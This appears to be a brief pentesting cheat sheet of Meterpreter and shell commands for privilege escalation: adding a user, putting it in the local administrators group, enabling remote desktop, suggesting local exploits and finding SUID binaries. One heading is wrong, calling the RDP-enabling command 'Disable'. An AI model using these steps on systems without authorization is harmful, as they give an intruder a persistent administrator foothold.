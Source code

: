 
# Privilege escalation

## Meterpreter commands
	
### Create user

```shell```

List users

```net user```

Add new user

```net user [name] [pass] /add```

Add user to administrator local group

```net localgroup administradores [name] /add```
	
### Disable Remote Conexion

```run getgui -e```
	
### Conect from linux console

```rdesktop [ip]```
	
### Search exploit for privilege escalation

```run post/multi/recon/local_exploit_suggester```

### Search binaris that can be execute as root

```find / -perm -4000 -type f 2>/dev/null```
